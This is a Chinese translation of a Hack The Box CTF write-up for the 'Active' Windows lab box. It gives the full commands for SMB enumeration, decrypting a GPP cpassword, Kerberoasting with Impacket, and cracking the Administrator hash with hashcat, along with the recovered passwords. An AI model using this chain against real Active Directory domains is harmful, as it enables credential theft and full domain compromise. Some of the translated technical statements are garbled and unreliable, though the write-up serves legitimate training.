





# HacktheBox —活动写报告

> 原文：<https://infosecwriteups.com/active-hack-the-box-ctf-writeup-55682a1272c2?source=collection_archive---------1----------------------->

# 快速注释:

因此，活跃的黑客已经退休，这意味着写文章是允许的。我在安全方面还是个新手，我想主动出击。有了这个，我在参加 PWK 课程以获得 OSCP 认证之前做好了准备。这是我最喜欢的盒子(虽然我只用过几个盒子)，因为它感觉不像 CTF。👊


来源:[https://cdn 4 . icon finder . com/data/icons/Greek-mythological-creatures/500/Greek _ monster _ 2-512 . png](https://cdn4.iconfinder.com/data/icons/greek-mythological-creatures/500/Greek_monster_2-512.png)

# 什么是黑盒子？

Hack the box 是一个在线平台，您可以在这里练习渗透测试技能，并与其他成员分享想法。点击了解更多关于[的信息。如果你对黑客(伦理上)感兴趣，了解它的一个方法是通过这个网站。通常，我们在这里把机器称为“盒子”。](https://www.hackthebox.eu/)

这个盒子在 Windows 上运行。我发现这个盒子很难(但很值得)，因为我对 Windows 盒子的经验很少，因为我的大部分练习时间都花在 Linux 命令行上。但是如果你想了解一些关于 Windows 的很酷的东西，这个盒子是最合适的。

# 让我们开始吧。

**侦察**:我们首先从 nmap 扫描开始，我们调用:

```
**nmap -sV -sC -oA nmap/Active 10.10.10.100**
```



nmap

**枚举:**我们看到端口 88 和 445 是开放的。Kerberos 位于 88 号端口。在谷歌搜索了这些可用端口通常关联的位置后，我意识到这个盒子需要一些活动目录知识。

当我看到 **SMB** 共享时，我会快速尝试访问它们，看看我们能从那里得到什么。我们通过在“文件”应用程序中的“连接到服务器”字段中键入以下内容来访问共享。

```
**smb ://10.10.10.100** 
```

看到这些分享后，我尝试匿名登录**，因为我还没有任何凭证。经过一些尝试和错误之后，我能够以匿名用户的身份登录复制文件夹。**

****

****我们导航:****

```
**active.htb -> Policies -> {31B2F340…} -> MACHINE -> Preferences -> Groups -> Groups.xml**
```

**我们找到了 **Groups.xml** 文件**

****

**打开 **Groups.xml** ，我们看到以下详细信息:**

```
<?xml version="1.0" encoding="utf-8"?><Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" ***name="active.htb\SVC_TGS"*** image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" ***cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"*** changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User></Groups>
```

## **我们找到用户**“SVC _ TGS”**和一个叫做**“cpassword”**的有趣字段。👌**

**在谷歌搜索了文件名 **Groups.xml** 和 **cpassword** 之后，我们发现了一个漏洞，在这里我们可以**解密**密码，因为微软公布了加密的 **AES 私钥**。这是在 2012 年左右。**

**Kali 中的一个名为 **gpp-decrpyt** 的工具允许我使用一行代码来解密，并发现用户**“SVC _ TGS”**的密码是 **GPPstillStandingStrong2k18。****

```
**root@kali**:~/Documents/htb/boxes/Active#gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ/usr/bin/gpp-decrypt:21: warning: constant OpenSSL::Cipher::Cipher is deprecated
**GPPstillStandingStrong2k18**
```

**然后，我们尝试使用这些凭据检查可以登录的位置。因为我们有一个名为**“Users”**的共享，所以我们首先尝试访问它。通过导航，我们可以找到 **user.txt** :**

```
**SVC_TGS-> Desktop -> user.txt**
```

****

****权限提升:**现在我们的目标是获得 root。在论坛上呆了一段时间后，我发现为了获得 root，我们需要进行一次名为**“Kerberos 认证”的攻击。****

# ****什么是 Kerberoasting 认证？****

**在理解 Kerberoast 之前，我们首先需要理解 Kerberos。基本上， **Kerberos** 是 **Windows 域**的认证系统。它是由蒂姆·梅丁在 2014 年 **SANS Hackfest 上展示的。Kerberos 也是守卫冥界大门的三头狗。系统的合适名称😏****

**我花了很多时间在 root 上，因为我不能理解 Kerberos 的想法，这就是为什么我在这段时间转移到其他盒子上。😅**

**离开这个盒子一段时间后，我决定扎根这个盒子，强迫自己学习 Kerberos。我推荐这些参考资料，因为它们对我很有帮助。**

**[](https://www.roguelynn.com/words/explain-like-im-5-kerberos/) [## 像我 5 岁一样解释:Kerberos

### 像我 5 岁时一样解释:Kerberos-Kerberos 是什么，我为什么要关心它？虽然这个话题可能不能…

www.roguelynn.com](https://www.roguelynn.com/words/explain-like-im-5-kerberos/) 

以及上面用的幻灯片的 PDF 复印件:[**https://www . sans . org/cyber-security-summit/archives/file/summit-archive-1493862736 . PDF**](https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1493862736.pdf)

# **获取根:**

在了解了基础知识之后，我现在开始搜索如何利用这个漏洞的工具和指南。

偶然发现了 Tim Medin 的[**Kerberos**](https://github.com/nidem/kerberoast)**库，这是一系列攻击 MS Kerberos 实现的工具。**

我还遇到了[**Impacket**](https://github.com/SecureAuthCorp/impacket)**，这是一个用于处理网络协议的 Python 类集合。**

你可以使用 Powershell 进行 Kerberoast，但是我使用了来自 T4 Impacket 集合的 T2 getuserspns . py。我们调用命令:

```
**root@kali:/opt/impacket/examples# ./GetUserSPNs.py -dc-ip 10.10.10.100 active.htb/SVC_TGS**
```

该命令列出了所有的 **SPN 的**。



我们看到了**管理员**用户。

然后，我们通过调用相同的命令请求列出的 **SPN 的**的 **Kerberos 票证**，但是添加了一个 **-request** 选项:

```
**root@kali:/opt/impacket/examples# ./GetUserSPNs.py -dc-ip 10.10.10.100 active.htb/SVC_TGS -request**
```

并显示以下输出:

```
**$krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~445*$1a82fe759bb31cfb4cf6239d0174846a$33cf8e7f4ffc07b1e474d897089ad8c436f119df0519ed43f7e654869415f244a826a4fefad7d98a0ac7fc09b59a8ded1c3c2388b9fb37826a3f08ce673a3f757252e9150f4d6630b2f8a29e1ed235d165b6141c25739c83b1b46b2f548b213e750f50ca9ab5a7605a78b3fcfc7d57ff76e7ef9461b2c67de4d5a213e602fb7c83f4e346eda1757705d0b545dcd8a1f2ca2210dd508d3de2ec338efa2c354bca8a8eee54548453dc64c041f9a4529e7a829b0d81da41c1867dff2e91653bc88015989330dd5fbcf9f2620addeb5e0e6dd69a6647e535793d65865d1504a82be9f46e46e96d6647e5533a6d5baa2c35971ed54e1ff4c5c83636dd691b9b29f8e5fe6e20e68a92a9e53e0e9671b5725841ab1f7b50dbba6a5605458d22a5d5cbd802ce01e39cd9264d98d8e4690fc6acff183f6d28a490a4e3fdce3af76a01c5ea8ddee062a7879c7da831aa296dd799b5c2b7c4dd8ded634596f40967a0ab5c5073e0259fc7a8468431a9a320b7d58d8e148812af89785f7ebefbbaffeb6450229a9423fd8c32fbc86f8f0a3d62fe52ce29d72dbaaaa1f918adea059895e5b44713d06831488e568eb4a3153b68d7016b065e67dc30306f03f4022dc90d50e871b115affa330d586bd5465b4ebc8cb36f17ef1ddd28d477e268c0a1ba142edc49c8c1218050510bd556e84e9f6982527e4163444419ffc132f9f7f0405eef831e1b82f84ab8b0bea00fc3356a25393ab5747cab540389bc0014f581f1d2ae0ef04d82b47c7e2d1db92239820a4bfc5d514be42770a1a9d4eed464d1504bcfe82d1edf36cfcee95590f3ab220b8ece07d80920ad906aed907f123deee391488ac7ee48356d47419aeb3cf2415906ef57fd83732cef7d1ed20ac82ca7a277f44ee9c2ecd460f6c35d70a834541379bec01c2a28846ce03046be2f075bc2d3f7d15745aae334c9a2a665bc3a3c093cae3f0eb8e35cda9b4b70b0a180a71c826fb17ef923719d5ecc0ba8c75cad4150b65c797789c8c98450058266ba66d58ab0a1664a09eb2d2ac21c7ab2e9f64cf2b92680af994386ac48c1496657ab172b1376715c1b86f20e1dc42f9eeb8ec79033bfc10a3ac0a11dc7d7ede8f51c366e29e4969e829043f9454b8cce64445fe5c8eb3498acf17c8ccf608757832e2fc2dc2046974536af533417b0ed62be3cd9195139ecd945a8dafaab636755cf4008ebea06531b822f4634f343c615444da3aca0fd9337fbab70437584a11c**
```

**GetUSerSPNs.py** 输出与 **hashcat** 兼容的文件。

## Hashcat 是一个密码恢复工具。你可以通过使用 oclHashcat 来使用你的 CPU 或者 GPU😄

使用 hashcat 来恢复密码，我们调用命令:

```
**hashcat -a 3 -m 13100 ~/Documents/htb/boxes/Active/ticket.txt /usr/share/wordlists/rockyou.txt --force**
```

*其中:*

*   -a =模式，其中 3 表示蛮力
*   -m =哈希模式，其中 13100 是 Kerberos 5 TGS-REP etype 23
*   ~/Documents/htb/boxes/Active/ticket . txt = getuserspns . py 的输出
*   /usr/share/wordlists/rock you . txt =用于破解的 word list

破解密码后，我们运行相同的命令，并在末尾添加一个“双虚线显示”,以查看附加在末尾的恢复密码:

```
**hashcat -a 3 -m 13100 ~/Documents/htb/boxes/Active/ticket.txt /usr/share/wordlists/rockyou.txt --force --show**
```

输出是

```
$krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~445*$bbf801bd55ba86f056215f3b48840548$61ece6a16beee9f8cbc4e581a6069d275f6ce178a438510dd3e0a381f3e3ca5b81b55867acd96e190920dc3d640ca0d0c2a83e2ac3788050d9d1efb2b09d33f665ea0dcf1c4717bd5d014c1eb4c6b0e557534a446fa6dbea2ba8b88e76412252899144c35b7cf9acfeeb960d4d8eb928921eed134edd8c95c5d8aafb34701608ed768bf1f66654e45f380ad579fa516dca50fbc8ac62396f47c11fb934662211e953a27aaf3ae1a316f0ec7323c8e1243dd463081d68c5c3496d8e0681266b453ab8f0f9859c816e987738afadd98c3de5c188e449243ad805b084b2b0d3bc3bfd5c17e12c0ee3bd2ac5f7075fc637d36dbb40899f83fdce659e292cdff3ab0e4f2fa97860e9b7baba585ea87bd801feb6ec942993806e4a8851f6a7a368270c1d39ed42012ee56714bcec6b5bd25cd5c967ee4329d7194004c03e21ea83ac0c40375c4255d9b084038d45f14646c608222f636bf7ab9ebbe5052e9f2fc0b4cd0f6a29799b1566fbd758a271a622743845057bfc040d135e232ad59472ca6e90b030f03dff06444fdffc3f82bd4171b87755134ff12b8df98d03cdbe53fd05d1023cff7b9c4abf9e844e635ce769069b91b63f37e0d9697c24390c39586db33ff26b5980b47142b29b2d050fb101350438e01435b02da4d65d89d01532caa768abb9f50fe5ea165db9bf857f6689776f7839b99bc1a4651adfb746b8d8a7d7dd95cd8c80c5d0aaf722270fbbedd8258662b85c289da626d4c357bdbd59c206960ad8bfc0419eb34a86c19cfe6e2dcfdc3cfb3c369e6dfc9503b564661a4ddec9d44ddc57c0b4a48acee355750fddfd39252e6b05693697f2660c007d119b0ee0ccb958c18281c6a067aa1169c2cbc65a49cff7c38e3af143fff259ade1560e754be4ccccff118175688785f267375572059f056aa22c91e23310e244b2ac95f83a1d5a4f9d39ac6378516149223e2cae4147495767a52224ce852d72608d64efc13306d9c24d8250726c80cea8d3ce08c9e3b94f6ba8801f6e5113e2d3732841701e2a5a24daef549ac08f5c86536543dfd524b6d6df659fdc9e36df15d900c946a44b32d4b22655c3b5ebf796b8e4fd75366129e908ae7ebce9a6934cec4e7657180f0dd1a87911fc51bf810afc05cea47b37f7a59519bf8fd8dc89444682678d20eba6c908bc3b3a9b0c70a028992df4ae689e0b4ebc2b748d409e3f837156c09514e16364d684ce582711c6bffd417d3d1fcd4452fc7bd973:**Ticketmaster1968**
```

然后，我们使用凭证 **Administrator** 和 **Ticketmaster1968** 登录，并访问共享以找到标志

```
**Users -> Administrator -> Desktop -> root.txt**
```



**就是这样！希望你从这篇文章中学到了一些东西！感谢阅读！👍**** 

***关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。***

**[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)**